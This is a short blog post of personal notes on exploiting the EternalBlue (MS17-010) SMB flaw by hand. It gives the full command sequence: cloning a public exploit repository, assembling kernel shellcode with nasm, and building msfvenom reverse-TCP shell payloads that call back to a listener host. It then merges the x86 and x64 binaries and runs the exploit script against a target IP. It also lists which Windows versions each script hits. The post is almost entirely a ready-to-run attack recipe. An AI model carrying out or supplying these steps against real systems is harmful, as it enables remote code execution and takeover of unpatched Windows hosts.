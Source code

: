 ```yaml
---
layout: post
title: Hacking EternalBlue By Hand
---
```

I know EternalBlue aka MS17-010 is nothing new.  However, I found a chance to use this exploit again and wanted to share (and remember the notes).  Credit goes to the folks at [puckiestyle.nl](http://www.puckiestyle.nl) who I shamelessly stole most of this writeup from.

### Get the code

`$ git clone https://github.com/worawit/MS17-010.git`

The first step is to assemble shellcode to binary. You can do either one (depending which architecture your target is running), or assemble both and merge them to a single binary file. The latter is useful when you don’t know the target arch or if you are planning to run it against multiple systems with different architectures.

```
$ ls -l MS17-010/shellcode/
total 44
-rw-r--r-- 1 root root 20305 Dec  2 22:03 eternalblue_kshellcode_x64.asm
-rw-r--r-- 1 root root 19862 Dec  2 22:03 eternalblue_kshellcode_x86.asm
-rw-r--r-- 1 root root  1589 Dec  2 22:03 eternalblue_sc_merge.py
```

### Prepare x64 shellcode

* Assemble kernel shellcode with nasm

`$ nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin`

* Generate a binary payload or use an existing one. Name this sc_x64_payload.bin

```
$ msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=192.168.0.29 --platform windows -a x64 --format raw -o sc_x64_payload.bin
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Saved as: sc_x64_payload.bin
```

* Concatenate payload & shellcode

`$ cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin`

### Prepare x86 shellcode

* Assemble kernel shellcode with nasm

`$ nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin`

* Generate a binary payload or use an existing one. Name this sc_x86_payload.bin

```
$ msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.0.29 --platform windows -a x86 --format raw -o sc_x86_payload.bin
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Saved as: sc_x86_payload.bin
```

* Concatenate payload & shellcode

`$ cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin`

### Merging binaries

This step is only necessary when you want both x64 and x86 in the same binary. Assuming that you followed the steps above for each architecture; merging is done with the included eternalblue_sc_merge.py script:

`$ python MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin`

### Running exploit

Stand up your local listener and run against vulnerable Windows 7 host

```
$ python MS17-010/eternalblue_exploit7.py 192.168.0.31 sc_all.bin
```

### Notes

Running these blindly against the target is a bad idea. Be sure to enumerate the OS first. Also, expect your target to crash or force a reboot once the session is closed.

The eternalblue scripts are located in MS17-010/ and have the following targets.

eternalblue_exploit7.py:

- Windows Server 2008 & R2
- Windows Server 2012 & R2 (x86)
- Windows Server 2016 (x64)
- Windows Vista
- Windows 7

eternalblue_exploit8.py:

- Windows Server 2012 (x64)
- Windows 8.1 & RT
- Windows 10 (x64) (build < 14393)
